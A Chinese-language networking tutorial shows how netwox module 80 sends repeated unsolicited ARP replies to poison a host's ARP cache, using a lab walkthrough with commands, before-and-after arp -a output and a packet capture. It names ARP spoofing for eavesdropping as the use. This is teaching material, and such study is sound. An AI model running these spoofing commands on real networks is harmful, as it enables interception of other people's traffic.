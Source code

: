 # 周期性发送 ARP 响应包

> 原文：[`c.biancheng.net/view/6397.html`](http://c.biancheng.net/view/6397.html)

正常情况下，ARP 响应是基于 ARP 请求的，只有发送了 ARP 请求才会得到 ARP 响应，并且发送一次 ARP 请求只会得到一个响应。

周期性发送 ARP 响应包，是指在没有 ARP 请求的情况下，以广播的形式多次发送 ARP 响应。

netwox 工具提供编号为 80 的模块，可以模拟计算机定期发送 ARP 数据包，从而更新其他主机的 ARP 缓存表。在 ARP 攻击中，该功能可以达到欺骗的目的，使受害者将数据包发送到错误的 MAC 地址主机（攻击主机），从而导致数据包被监听。

【示例】已知 netwox 所在主机为主机 A，主机 B 的 IP 地址为 192.168.59.135。使用 netwox 工具发送 ARP 响应包，以更换 ARP 缓存表中主机的 MAC 地址信息。

1) 在发送 ARP 响应之前，在主机 B 上查看主机 ARP 缓存表信息，执行命令如下：

root@daxueba:~# arp -a

输出信息如下：

localhost (192.168.59.136) at 00:0c:29:bc:a4:89 [ether] on eth0
localhost (192.168.59.132) at 00:0c:29:aa:e0:27 [ether] on eth0
localhost (192.168.59.125) at 00:0c:29:ca:e4:99 [ether] on eth0
localhost (192.168.59.160) at a1:b2:c3:d4:e5:f6 [ether] on eth0
localhost (192.168.59.254) at 00:50:56:f8:bb:0f [ether] on eth0
localhost (192.168.59.2)     at 00:50:56:ea:f3:a1 [ether] on eth0

上述输出信息中，主机 192.168.59.136 的 MAC 地址为 00：0c：29：bc：a4：89。

2) 创建虚拟主机 192.168.59.136，并向该主机发送 ARP 响应包，设置 MAC 地址为 00：01：01：21：22：23，执行命令如下：

root@daxueba:~# netwox 80 -i 192.168.59.136 -e 00:01:01:21:22:23

执行命令后没有任何输出信息。

3) 此时再次在主机 B 上查看主机 ARP 缓存表信息，执行命令如下：

root@daxueba:~# arp -a

输出信息如下：

localhost (192.168.59.136) at 00:01:01:21:22:23 [ether] on eth0
localhost (192.168.59.132) at 00:0c:29:aa:e0:27 [ether] on eth0
localhost (192.168.59.125) at 00:0c:29:ca:e4:99 [ether] on eth0
localhost (192.168.59.160) at a1:b2:c3:d4:e5:f6 [ether] on eth0
localhost (192.168.59.254) at 00:50:56:f8:bb:0f [ether] on eth0
localhost (192.168.59.2)     at 00:50:56:ea:f3:a1 [ether] on eth0

上述输出信息中，主机 192.168.59.136 的 MAC 地址由原来的 00：0c：29：bc：a4：89 变为了 00：01：01：21：22：23。

4) 为了验证发送的 ARP 响应包，捕获数据包进行查看，如图所示。
![](img/e5093a2fdd67cfdd6f04c9128b4b9718.png)
其中，第 27~33 个数据包为重复发送的 ARP 响应包。